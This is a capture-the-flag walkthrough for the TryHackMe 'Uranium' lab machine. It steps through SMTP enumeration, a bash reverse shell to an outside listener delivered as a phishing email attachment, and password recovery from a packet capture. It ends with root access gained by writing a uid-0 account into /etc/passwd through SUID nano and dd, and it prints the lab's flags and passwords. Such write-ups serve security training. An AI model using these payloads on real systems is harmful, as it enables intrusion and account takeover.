

# TryHackMe-Uranium CTF

**Scope:**

- Simple Mail Transfer Protocol (SMTP)
- PCAP Analysis
- Passwd File
- dd Binary

**Keywords:**

- smtp-user-enum
- SMTP Enumeration
- Reverse Shell with Phishing & SMTP
- sendemail
- PCAP File Analysis
- tshark
- Executable File Analysis
- SSH Connection
- File Access With dd Binary
- Privilege Escalation with nano & passwd File

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `openssl s_client -crlf -connect uranium.thm:25`
- `smtp-user-enum -t $target_ip -p 25 -u administrator`
- `sendemail -t hakanbey@uranium.thm -f hakanbey@uranium.thm -s uranium.thm -u 'We are here…' -m 'You should open this file' -a application -o tls=no`
- `tshark -r hakanbey_network_log.pcap`
- `tshark -r hakanbey_network_log.pcap -qz follow,tcp,ascii,0`
- `ssh hakanbey@uranium.thm -p 22`
- `openssl passwd -6 --salt randomsalt hello_world`

**System Commands:**

- `su - overthenet`
- `find / -perm -4000 2>/dev/null`
- `find /var/mail -writable 2>/dev/null`
- `/bin/dd if=/var/www/html/web_flag.txt of=flag.txt`
- `find / -type f -perm -u=s 2>/dev/null`
- `env`
- `getent group kral4`
- `sudo -u kral4 /bin/bash`
- `sudo -l`
- `python3 -m http.server --directory /var/log/`
- `find /var/log -type f 2>/dev/null`
- `getcap -r / 2>/dev/null`
- `netstat -tulwn`
- `file chat_with_kral4`
- `SHELL=/bin/bash script -q /dev/null`
- `cat /etc/passwd | grep '/bin/bash’`
- `export TERM=xterm`

### Laboratory Environment

[Uranium CTF](https://tryhackme.com/r/room/uranium)

> **Laboratory Requirements**
> 


### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```jsx
PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:3c:d7:e9:d0:85:40:33:d5:07:16:32:08:63:31:05 (RSA)
|   256 24:81:0c:3a:91:55:a0:65:9e:36:58:71:51:13:6c:34 (ECDSA)
|_  256 c2:94:2b:0d:8e:a9:53:f6:ef:34:db:f1:43:6c:c1:7e (ED25519)
25/tcp    open     smtp             Postfix smtpd
|_smtp-commands: uranium, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=uranium
| Subject Alternative Name: DNS:uranium
| Not valid before: 2021-04-09T21:40:53
|_Not valid after:  2031-04-07T21:40:53
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
135/tcp   filtered msrpc
554/tcp   filtered rtsp
2717/tcp  filtered pn-requester
5900/tcp  filtered vnc
10000/tcp filtered snet-sensor-mgmt
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://uranium.thm`

```jsx
HTTP/1.1 200 OK
Date: Mon, 09 Dec 2024 10:24:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Fri, 23 Apr 2021 14:07:44 GMT
ETag: "286f-5c0a451dc67dd"
Accept-Ranges: bytes
Content-Length: 10351
Vary: Accept-Encoding
Content-Type: text/html

[REDACTED] - MORE

<h1>Uranium Coin</h1>
<p>Uranium is the community-run technology powering the cryptocurrency
</br>Uranium (URC) and thousands of decentralized applications.</p>

[REDACTED] - MORE

<li><a href="#">Intro</a></li>
<li><a href="#">Work</a></li>
<li><a href="#">About</a></li>
<li><a href="#">Contact</a></li>

[REDACTED] - MORE

This is <u>underlined</u> and this is code: <code>for (;;)

[REDACTED] - MORE
```



> **SMTP Enumeration Phase**
> 

`openssl s_client -crlf -connect uranium.thm:25`

```jsx
---
no peer certificate available
---
No client certificate CA names sent
---
SSL handshake has read 5 bytes and written 458 bytes
Verification: OK
---
New, (NONE), Cipher is (NONE)
This TLS version forbids renegotiation.
Compression: NONE
Expansion: NONE
No ALPN negotiated
Early data was not sent
Verify return code: 0 (ok)
---

```

`smtp-user-enum -t $target_ip -p 25 -u administrator`

```jsx
 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Mon Dec  9 05:37:44 2024 #########
######## Scan completed at Mon Dec  9 05:37:49 2024 #########
0 results.

```

> **Reverse Shell with Phishing & SMTP Phase**
> 

`nano application`

```jsx
bash -c "bash -i >& /dev/tcp/10.2.37.37/14444 0>&1"
```

`nc -nlvp 14444`

```jsx
listening on [any] 14444 ...
```

`sendemail -t hakanbey@uranium.thm -f hakanbey@uranium.thm -s uranium.thm -u 'We are here…' -m 'You should open this file' -a application -o tls=no`

```jsx
Dec 09 05:45:15 kali sendemail[16694]: Email was sent successfully!
```

```jsx
listening on [any] 14444 ...
connect to [10.10.47.66] from (UNKNOWN) [10.10.127.85] 39692
bash: cannot set terminal process group (1747): Inappropriate ioctl for device
bash: no job control in this shell

hakanbey@uranium:~$ whoami
hakanbey
hakanbey@uranium:~$ id
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey)
hakanbey@uranium:~$ pwd
/home/hakanbey

hakanbey@uranium:~$ export TERM=xterm

hakanbey@uranium:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

hakanbey@uranium:~$ uname -a
Linux uranium 4.15.0-142-generic #146-Ubuntu SMP Tue Apr 13 01:11:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

hakanbey@uranium:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
hakanbey:x:1000:1000:hakanbey:/home/hakanbey:/bin/bash
kral4:x:1001:1001:,,,:/home/kral4:/bin/bash
web:x:1002:1002:,,,:/home/web:/bin/bash

hakanbey@uranium:~$ ls -lsa /home
total 16
4 drwxr-xr-x  4 root     root     4096 Apr 23  2021 .
4 drwxr-xr-x 24 root     root     4096 May  4  2021 ..
4 drwxr-xr-x  7 hakanbey hakanbey 4096 May  4  2021 hakanbey
4 drwxr-x---  3 kral4    kral4    4096 May  4  2021 kral4

hakanbey@uranium:~$ groups
hakanbey

hakanbey@uranium:~$ getent group hakanbey
hakanbey:x:1000:

hakanbey@uranium:~$ SHELL=/bin/bash script -q /dev/null
hakanbey@uranium:~$
```

> **Internal System Investigation Phase**
> 

```jsx
hakanbey@uranium:~$ ls -lsa
total 100
 4 drwxr-xr-x 7 hakanbey hakanbey  4096 May  4  2021 .
 4 drwxr-xr-x 4 root     root      4096 Apr 23  2021 ..
 0 lrwxrwxrwx 1 root     root         9 Apr 25  2021 .bash_history -> /dev/null
 4 -rw-r--r-- 1 hakanbey hakanbey   220 Apr  4  2018 .bash_logout
 4 -rw-r--r-- 1 hakanbey hakanbey  3771 Apr  4  2018 .bashrc
 4 drwx------ 2 hakanbey hakanbey  4096 Apr  9  2021 .cache
52 -rwxrwxr-x 1 hakanbey hakanbey 49376 Apr  9  2021 chat_with_kral4
 4 drwxr-x--- 3 hakanbey hakanbey  4096 Apr 10  2021 .config
 4 drwx------ 4 hakanbey hakanbey  4096 Apr 10  2021 .gnupg
 4 drwxrwxr-x 3 hakanbey hakanbey  4096 Apr  9  2021 .local
 4 drwxrwxr-x 2 hakanbey hakanbey  4096 Dec  9 10:49 mail_file
 4 -rw-r--r-- 1 hakanbey hakanbey   807 Apr  4  2018 .profile
 4 -rw-rw-r-- 1 hakanbey hakanbey    66 Apr  9  2021 .selected_editor
 0 -rw-r--r-- 1 hakanbey hakanbey     0 Apr  9  2021 .sudo_as_admin_successful
 4 -rw-rw-r-- 1 hakanbey hakanbey    38 Apr 10  2021 user_1.txt
 
hakanbey@uranium:~$ file chat_with_kral4
chat_with_kral4: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3cf57a90a14e7b2771cb14cd9b1837fe9fa7495b, for GNU/Linux 3.2.0, not stripped

hakanbey@uranium:~$ netstat -tulwn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:1234          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::25                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.127.85:68         0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7          

hakanbey@uranium:~$ getcap -r / 2>/dev/null
hakanbey@uranium:~$ find /var/log -type f 2>/dev/null
/var/log/wtmp
/var/log/btmp
/var/log/mail.log
/var/log/hakanbey_network_log.pcap
/var/log/landscape/sysinfo.log
/var/log/tallylog
/var/log/bootstrap.log
/var/log/installer/subiquity-info.log.1669
/var/log/installer/block/discover.log
/var/log/installer/block/probe-data.json
/var/log/installer/autoinstall-user-data
/var/log/installer/subiquity-curtin-install.conf
/var/log/installer/installer-journal.txt
/var/log/installer/curtin-install.log
/var/log/installer/media-info
/var/log/installer/curtin-install-cfg.yaml
/var/log/installer/subiquity-debug.log.1669
/var/log/apt/history.log
/var/log/apt/eipp.log.xz
/var/log/apt/term.log
/var/log/auth.log
/var/log/cloud-init-output.log
/var/log/dpkg.log
/var/log/aws114_ssm_agent_installation.log
/var/log/kern.log
/var/log/syslog
/var/log/cloud-init.log
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1002.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/system@0005bf9fb004c166-4148281601d8ce8b.journal~
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1001.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1000@0005c1a9868986ea-3b258af52c0fc7c3.journal~
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1000@07411177fb22421e8d5a2ec790463498-0000000000000352-0005bf9fb44b16a6.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1000.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/system.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/system@d721dba68866423a845538cfa688140b-0000000000000001-0005bf9fb0014e5a.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/system@d59ba90a53a9462f98f6b2de00376616-0000000000000001-0005c1a97eedf732.journal
/var/log/journal/d201151764514de6bab90df33f56aa28/system@0005c1a97ef1fb11-8306f11055852e3b.journal~
/var/log/journal/d201151764514de6bab90df33f56aa28/user-1000@0005bf9fb44b8d0a-58765ae8f3f5721e.journal~
/var/log/lastlog
/var/log/alternatives.log
/var/log/faillog
/var/log/apport.log

hakanbey@uranium:~$ python3 -m http.server --directory /var/log/
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`wget http://uranium.thm:8000/hakanbey_network_log.pcap`

```jsx
hakanbey_network_log.pcap          100%[===============================================================>]   1.83K   418 B/s    in 4.5s    

2024-12-09 06:04:45 (418 B/s) - ‘hakanbey_network_log.pcap’ saved [1869/1869]
```

> **PCAP File Analysis Phase**
> 

`tshark -r hakanbey_network_log.pcap`

```jsx
    1   0.000000    127.0.0.1 → 127.0.0.2    TCP 74 48830 → 13450 [SYN] Seq=0 Win=65495 Len=0 MSS=65495 SACK_PERM TSval=2818251031 TSecr=0 WS=128
    2   0.000009    127.0.0.2 → 127.0.0.1    TCP 74 13450 → 48830 [SYN, ACK] Seq=0 Ack=1 Win=65483 Len=0 MSS=65495 SACK_PERM TSval=622207211 TSecr=2818251031 WS=128
    3   0.000015    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=1 Ack=1 Win=65536 Len=0 TSval=2818251031 TSecr=622207211
    4   8.334852    127.0.0.2 → 127.0.0.1    TCP 91 13450 → 48830 [PSH, ACK] Seq=1 Ack=1 Win=65536 Len=25 TSval=622215546 TSecr=2818251031
    5   8.334859    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=1 Ack=26 Win=65536 Len=0 TSval=2818259366 TSecr=622215546
    6  12.975086    127.0.0.2 → 127.0.0.1    TCP 75 13450 → 48830 [PSH, ACK] Seq=26 Ack=1 Win=65536 Len=9 TSval=622220186 TSecr=2818259366
    7  12.975090    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=1 Ack=35 Win=65536 Len=0 TSval=2818264006 TSecr=622220186
    8  16.631077    127.0.0.1 → 127.0.0.2    TCP 73 48830 → 13450 [PSH, ACK] Seq=1 Ack=35 Win=65536 Len=7 TSval=2818267662 TSecr=622220186
    9  16.631084    127.0.0.2 → 127.0.0.1    TCP 66 13450 → 48830 [ACK] Seq=35 Ack=8 Win=65536 Len=0 TSval=622223842 TSecr=2818267662
   10  37.047679    127.0.0.2 → 127.0.0.1    TCP 114 13450 → 48830 [PSH, ACK] Seq=35 Ack=8 Win=65536 Len=48 TSval=622244258 TSecr=2818267662
   11  37.047686    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=8 Ack=83 Win=65536 Len=0 TSval=2818288078 TSecr=622244258
   12  44.271436    127.0.0.1 → 127.0.0.2    TCP 97 48830 → 13450 [PSH, ACK] Seq=8 Ack=83 Win=65536 Len=31 TSval=2818295302 TSecr=622244258
   13  44.271442    127.0.0.2 → 127.0.0.1    TCP 66 13450 → 48830 [ACK] Seq=83 Ack=39 Win=65536 Len=0 TSval=622251482 TSecr=2818295302
   14  79.688527    127.0.0.2 → 127.0.0.1    TCP 113 13450 → 48830 [PSH, ACK] Seq=83 Ack=39 Win=65536 Len=47 TSval=622286898 TSecr=2818295302
   15  79.688535    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=39 Ack=130 Win=65536 Len=0 TSval=2818330718 TSecr=622286898
   16 125.689397    127.0.0.1 → 127.0.0.2    TCP 88 48830 → 13450 [PSH, ACK] Seq=39 Ack=130 Win=65536 Len=22 TSval=2818376718 TSecr=622286898
   17 125.689404    127.0.0.2 → 127.0.0.1    TCP 66 13450 → 48830 [ACK] Seq=130 Ack=61 Win=65536 Len=0 TSval=622332898 TSecr=2818376718
   18 128.314397    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [FIN, ACK] Seq=61 Ack=130 Win=65536 Len=0 TSval=2818379343 TSecr=622332898
   19 128.315018    127.0.0.2 → 127.0.0.1    TCP 66 13450 → 48830 [FIN, ACK] Seq=130 Ack=62 Win=65536 Len=0 TSval=622335523 TSecr=2818379343
   20 128.315027    127.0.0.1 → 127.0.0.2    TCP 66 48830 → 13450 [ACK] Seq=62 Ack=131 Win=65536 Len=0 TSval=2818379343 TSecr=622335523
```

`tshark -r hakanbey_network_log.pcap -qz follow,tcp,ascii,0`

```jsx
Follow: tcp,ascii
Filter: tcp.stream eq 0
Node 0: 127.0.0.1:48830
Node 1: 127.0.0.2:13450
        25
MBMD1vdpjg3kGv6SsIz56VNG

        9
Hi Kral4

7
Hi bro

        48
I forget my password, do you know my password ?

31
Yes, wait a sec I'll send you.

        47
Oh , yes yes I remember. No need anymore. Ty..

22
Okay bro, take care !
```

> **Executable File Analysis Phase**
> 

```jsx
hakanbey@uranium:~$ ./chat_with_kral4
PASSWORD : MBMD1vdpjg3kGv6SsIz56VNG

kral4:hi hakanbey

->hello
hakanbey:hello
kral4:how are you?

->seems fine
hakanbey:seems fine
kral4:what now? did you forgot your password again

->yes
hakanbey:yes
kral4:okay your password is Mys3cr3tp4sw0rD don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated

hakanbey@uranium:~$ 
```

> **SSH Connection Phase**
> 

`ssh hakanbey@uranium.thm -p 22`

```jsx
hakanbey@uranium.thm's password: Mys3cr3tp4sw0rD

Last login: Mon Dec  9 11:11:42 2024 from 10.2.37.37

hakanbey@uranium:~$ whoami
hakanbey
hakanbey@uranium:~$ id
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey)
hakanbey@uranium:~$ 

```

> **Internal System Investigation & Swith User Phase**
> 

```jsx
hakanbey@uranium:~$ sudo -l
[sudo] password for hakanbey: Mys3cr3tp4sw0rD

Matching Defaults entries for hakanbey on uranium:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
    
hakanbey@uranium:~$ sudo -u kral4 /bin/bash

kral4@uranium:~$ whoami
kral4
kral4@uranium:~$ id
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
kral4@uranium:~$ getent group kral4
kral4:x:1001:

kral4@uranium:~$ env
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
LESSCLOSE=/usr/bin/lesspipe %s %s
LANG=en_US.UTF-8
SUDO_GID=1000
USERNAME=kral4
SUDO_COMMAND=/bin/bash
USER=kral4
PWD=/home/hakanbey
HOME=/home/hakanbey
SUDO_USER=hakanbey
SUDO_UID=1000
MAIL=/var/mail/kral4
SHELL=/bin/bash
TERM=xterm-256color
SHLVL=1
LOGNAME=kral4
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
LESSOPEN=| /usr/bin/lesspipe %s
_=/usr/bin/env

kral4@uranium:~$ cd /home/kral4
kral4@uranium:/home/kral4$ find / -type f -perm -u=s 2>/dev/null

/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudo
/bin/umount
/bin/ping
/bin/su
/bin/fusermount
/bin/mount
/bin/dd

kral4@uranium:/home/kral4$ ls -lsa
total 140
  4 drwxr-x--- 3 kral4 kral4   4096 May  4  2021 .
  4 drwxr-xr-x 4 root  root    4096 Apr 23  2021 ..
  0 lrwxrwxrwx 1 root  root       9 Apr 25  2021 .bash_history -> /dev/null
  4 -rw-r--r-- 1 kral4 kral4    220 Apr  9  2021 .bash_logout
  4 -rw-r--r-- 1 kral4 kral4   3771 Apr  9  2021 .bashrc
108 -rwxr-xr-x 1 kral4 kral4 109960 Apr  9  2021 chat_with_hakanbey
  4 -rw-r--r-- 1 kral4 kral4      5 Dec  9 11:09 .check
  4 drwxrwxr-x 3 kral4 kral4   4096 Apr 10  2021 .local
  4 -rw-r--r-- 1 kral4 kral4    807 Apr  9  2021 .profile
  4 -rw-rw-r-- 1 kral4 kral4     38 Apr 10  2021 user_2.txt
  
kral4@uranium:/home/kral4$
```

> **File Access With dd Binary Phase**
> 

**For more information:**

[dd
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/dd/)

```jsx
kral4@uranium:/home/kral4$ ls -lsa /bin/dd
76 -rwsr-x--- 1 web kral4 76000 Apr 23  2021 /bin/dd

kral4@uranium:/home/kral4$ ls -lsa /etc/shadow
4 -rw-r----- 1 root shadow 1303 Apr 25  2021 /etc/shadow

kral4@uranium:/home/kral4$ cd /var/www/html
kral4@uranium:/var/www/html$ /bin/dd if=/var/www/html/web_flag.txt of=flag.txt
0+1 records in
0+1 records out
38 bytes copied, 0.0012133 s, 31.3 kB/s
kral4@uranium:/var/www/html$ cat flag.txt
thm{019d332a6a223a98b955c160b3e6750a}
kral4@uranium:/var/www/html$ 
```

> **Privilege Escalation with nano & passwd File Phase**
> 

```jsx
kral4@uranium:/var/www/html$ cd /home/kral4
kral4@uranium:/home/kral4$ find /var/mail -writable 2>/dev/null
/var/mail/kral4

kral4@uranium:/home/kral4$ cat /var/mail/kral4
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
        by uranium (Postfix) with ESMTP id C7533401C2
        for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format.
To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--

kral4@uranium:/home/kral4$ cp /bin/nano /home/kral4/nano
kral4@uranium:/home/kral4$ ls -lsa
total 384
  4 drwxr-x--- 3 kral4 kral4   4096 Dec  9 11:26 .
  4 drwxr-xr-x 4 root  root    4096 Apr 23  2021 ..
  0 lrwxrwxrwx 1 root  root       9 Apr 25  2021 .bash_history -> /dev/null
  4 -rw-r--r-- 1 kral4 kral4    220 Apr  9  2021 .bash_logout
  4 -rw-r--r-- 1 kral4 kral4   3771 Apr  9  2021 .bashrc
108 -rwxr-xr-x 1 kral4 kral4 109960 Apr  9  2021 chat_with_hakanbey
  4 -rw-r--r-- 1 kral4 kral4      5 Dec  9 11:09 .check
  4 drwxrwxr-x 3 kral4 kral4   4096 Apr 10  2021 .local
244 -rwxr-xr-x 1 kral4 kral4 245872 Dec  9 11:26 nano
  4 -rw-r--r-- 1 kral4 kral4    807 Apr  9  2021 .profile
  4 -rw-rw-r-- 1 kral4 kral4     38 Apr 10  2021 user_2.txt
  
kral4@uranium:/home/kral4$ cd /var/www/html
kral4@uranium:/var/www/html$ echo "root" | /bin/dd of=index.html
0+1 records in
0+1 records out
5 bytes copied, 0.000582152 s, 8.6 kB/s

kral4@uranium:/var/www/html$ find / -perm -4000 2>/dev/null
/home/kral4/nano
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudo
/bin/umount
/bin/ping
/bin/su
/bin/fusermount
/bin/mount
/bin/dd

kral4@uranium:/var/www/html$ 
```

`openssl passwd -6 --salt randomsalt hello_world`

```jsx
$6$randomsalt$Bw4y.Xsim.L6FguzbMIdHOA4VqNHuLweW07JktOM/qz1.HXN1gdTSUNRl1fzPUcht903aycvwbpLD1ft.XhKQ.
```

```jsx
kral4@uranium:/var/www/html$ cd /home/kral4
You have new mail in /var/mail/kral4

kral4@uranium:/home/kral4$ ls -lsa
total 384
  4 drwxr-x--- 3 kral4 kral4   4096 Dec  9 11:26 .
  4 drwxr-xr-x 4 root  root    4096 Apr 23  2021 ..
  0 lrwxrwxrwx 1 root  root       9 Apr 25  2021 .bash_history -> /dev/null
  4 -rw-r--r-- 1 kral4 kral4    220 Apr  9  2021 .bash_logout
  4 -rw-r--r-- 1 kral4 kral4   3771 Apr  9  2021 .bashrc
108 -rwxr-xr-x 1 kral4 kral4 109960 Apr  9  2021 chat_with_hakanbey
  4 -rw-r--r-- 1 kral4 kral4      5 Dec  9 11:09 .check
  4 drwxrwxr-x 3 kral4 kral4   4096 Apr 10  2021 .local
244 -rwsrwxrwx 1 root  root  245872 Dec  9 11:26 nano
  4 -rw-r--r-- 1 kral4 kral4    807 Apr  9  2021 .profile
  4 -rw-rw-r-- 1 kral4 kral4     38 Apr 10  2021 user_2.txt
  
kral4@uranium:/home/kral4$ ./nano /etc/passwd

[REDACTED] - MORE

overthenet:$6$randomsalt$Bw4y.Xsim.L6FguzbMIdHOA4VqNHuLweW07JktOM/qz1.HXN1gdTSUNRl1fzPUcht903aycvwbpLD1ft.XhKQ.:0:0::/root:/bin/bash

kral4@uranium:/home/kral4$ su - overthenet
Password: hello_world
root@uranium:~# whoami
root
root@uranium:~# id
uid=0(root) gid=0(root) groups=0(root)
root@uranium:~# 
```